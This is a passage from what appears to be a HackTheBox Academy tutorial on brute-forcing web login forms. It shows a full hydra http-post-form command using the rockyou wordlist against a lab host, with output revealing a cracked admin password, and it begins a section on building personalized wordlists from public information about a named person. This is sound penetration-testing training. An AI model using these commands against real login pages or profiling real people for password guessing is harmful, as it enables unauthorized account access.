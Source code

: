 As we can see, we were not able to identify any working credentials. Still, this only took a few seconds, and we ruled out the use of default passwords. Now, we can move on to use a password wordlist.

***

### Password Wordlist

Since the brute force attack failed using default credentials, we can try to brute force the web application form with a specified user. Often usernames such as `admin`, `administrator`, `wpadmin`, `root`, `adm`, and similar are used in administration panels and are rarely changed. Knowing this fact allows us to limit the number of possible usernames. The most common username administrators use is `admin`. In this case, we specify this username for our next attempt to get access to the admin panel.

Login Form Attacks

```shell-session
root@htb[/htb]$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'

[PORT][http-post-form] host: 178.35.49.134   login: admin   password: password123
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

We can try to log in with these credentials now:

## Personalized Wordlists

***

To create a personalized wordlist for the user, we will need to collect some information about them. As our example here is a known public figure, we can check out their [Wikipedia page](https://en.wikipedia.org/wiki/Bill\_Gates) or do a basic Google search to gather the necessary information. Even if this was not a known figure, we can still carry out the same attack and create a personalized wordlist for them. All we need to do is gather some information about them, which is discussed in detail in the [Hashcat](https://academy.hackthebox.com/module/details/20) module, so feel free to check it out.
